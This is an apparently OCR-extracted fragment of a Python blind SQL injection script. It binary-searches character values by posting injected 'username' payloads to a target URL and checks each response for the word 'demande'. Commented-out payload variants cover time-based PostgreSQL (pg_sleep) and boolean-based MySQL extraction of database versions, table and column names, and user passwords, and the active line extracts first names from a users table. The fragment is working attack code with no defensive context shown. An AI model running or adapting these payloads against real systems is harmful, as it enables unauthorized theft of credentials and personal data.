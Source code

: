 ```python
        start = 0
        end = 127

        found = 0
        old_candidat = candidat

        while 1:

            mid = floor((start + end) // 2)
            #print(start, mid, end)
            
            time.sleep(0.05)
            #payload = f"1; select case when ascii(substring(version(), {index}, 1))>={mid} then pg_sleep({timing}) else pg_sleep(0) end-- -"
            #payload = f"1; select case when ascii(substring(datname, {index}, 1))>={mid} then pg_sleep({timing}) else pg_sleep(0) end from pg_database limit 1;-- -"
            #payload = f"1; select case when ascii(substring(table_name, {index}, 1))>={mid} then pg_sleep({timing}) else pg_sleep(0) end from information_schema.tables limit 1;-- -"
            #payload = f"1; select case when ascii(substring(column_name, {index}, 1))>={mid} then pg_sleep({timing}) else pg_sleep(0) end from information_schema.columns limit 1 offset {offset};-- -"
            #payload = f"1; select case when ascii(substring(password, {index}, 1))>={mid} then pg_sleep({timing}) else pg_sleep(0) end from users limit 1 offset {offset};-- -"
            #payload =  f"admin' and ascii(MID(version(), {index}, 1))>={mid}-- -"
            #payload =  f"admin' and ascii(MID(database(), {index}, 1))>={mid}-- -"
            #payload =  f"admin' and ascii(MID((select group_concat(table_name) from information_schema.tables where table_schema=database()), {index}, 1))>={mid}-- -"
            #payload =  f"admin' and ascii(MID((select group_concat(column_name) from information_schema.columns where table_name='users'), {index}, 1))>={mid}-- -"
            #payload =  f"admin' and ascii(MID((select username from users limit {offset},1), {index}, 1))>={mid}-- -"
            #payload =  f"admin' and ascii(MID((select description from users limit {offset},1), {index}, 1))>={mid}-- -"
            payload =  f"admin' and ascii(MID((select fname from users limit {offset},1), {index}, 1))>={mid}-- -"
            #(select if((ascii(MID(@@version,{index},1)))>={mid}, sleep({timing}, 0)))-- 
            #' or (select if(MID(@@version,{index},1))>={mid}, sleep({timing}), 0)-- -
            #print(payload)
            
            url_final = url_base

            data = {
                "username": payload
            }

            #start_time = time.time()
            response = requests.post(url_final, data=data)
            #print(response.text)

            #delta = time.time() - start_time
            #print(delta)

            if "demande" in response.text:
                if mid == start:
                    #print(chr(mid))
                    char = chr(mid)
                    if char != '\x00':
                        candidats.append(candidat + char)
                    else:
                        results.append(candidat)
                    break
                else:
                    start = mid
```